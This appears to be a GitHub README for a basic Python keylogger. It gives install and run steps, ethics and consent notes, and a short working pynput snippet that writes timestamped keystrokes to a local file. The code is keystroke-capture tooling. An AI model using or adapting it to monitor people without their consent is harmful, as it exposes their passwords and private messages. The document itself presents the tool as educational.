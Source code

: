 # Simple Keylogger in Python

## Overview
This project is a basic keylogger developed in Python. It logs keystrokes along with timestamps and saves them to a text file. This tool is intended for educational purposes only.

## Features
- Logs keystrokes with timestamps.
- Handles special keys (space, enter, backspace).
- Easy to stop with Ctrl+C.

## Installation
1. Ensure you have Python installed on your machine.
2. Install the required library:
   ```bash
   pip install pynput
   ```

## Usage
1. Run the keylogger script:
   ```bash
   python keylogger.py
   ```
2. The keylogger will start capturing keystrokes. Press **Ctrl+C** to stop the logging.

## Ethical Considerations
- Always obtain permission before logging anyone's keystrokes.
- Be transparent about the purpose of data collection.
- Ensure compliance with local laws regarding data privacy.

## Example Code
Here's a snippet of the keylogger code:

```python
import pynput
from pynput.keyboard import Key, Listener
import datetime

log_file = "keylog.txt"

def log_key(key):
    with open(log_file, "a") as f:
        timestamp = datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S')
        f.write(f"{timestamp}: {key}\n")

with Listener(on_press=log_key) as listener:
    listener.join()
```

## License
This project is for educational purposes only. Use it responsibly and ethically.

## Acknowledgments
- [pynput](https://pynput.readthedocs.io/en/latest/) - A library to control and monitor input devices.
